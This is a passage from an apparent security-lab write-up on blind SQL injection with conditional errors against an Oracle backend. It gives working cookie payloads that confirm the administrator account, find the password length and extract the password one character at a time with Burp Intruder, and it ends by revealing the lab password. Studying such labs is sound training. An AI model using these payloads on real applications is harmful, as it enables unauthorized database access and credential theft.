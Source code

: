   ![image](https://github.com/user-attachments/assets/e3c6eb48-e12f-465f-a543-94d4cd50d797)


- **False Condition Test**:
  - Payload: `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
  - Result: HTTP 200 response, as false condition returns empty string.

![image](https://github.com/user-attachments/assets/d1d5f787-4511-496e-aa28-2ae4d5ce2d96)


- **Administrator Check**:
  - Payload: 
    ```sql
    TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
    ```
  - Result: Error, confirming the `administrator` user exists.

![image](https://github.com/user-attachments/assets/be46c74f-ffb0-40c2-982c-f93a808e9f97)


### Step 5: Determining Password Length
To find the length of the administrator's password:

- Payload: 
  ```sql
  TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>N THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
  ```
- Method: Used Burp Intruder to test `N` from 1 to 21.
- Result: Error for `LENGTH > 20`, but not for `LENGTH > 21`, indicating the password is **20 characters**.

![image](https://github.com/user-attachments/assets/a4954f39-14fc-4629-a8d4-48a6f5da7415)



### Step 6: Brute-Forcing the Password
To extract the password character by character:

- Payload: 
  ```sql
  TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,§N§,1)='§CHAR§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
  ```
- Method: Used Burp Intruder with **Cluster Bomb** attack:
  - Payload 1: Position (`N` from 1 to 20).
  - Payload 2: Alphanumeric character set.
- Result: Errors for specific characters at each position, revealing the password: **`8fysuozl95mngaem0abi`**.

![image](https://github.com/user-attachments/assets/5e85ee25-29ba-4a9c-bb10-b34378ad07ca)



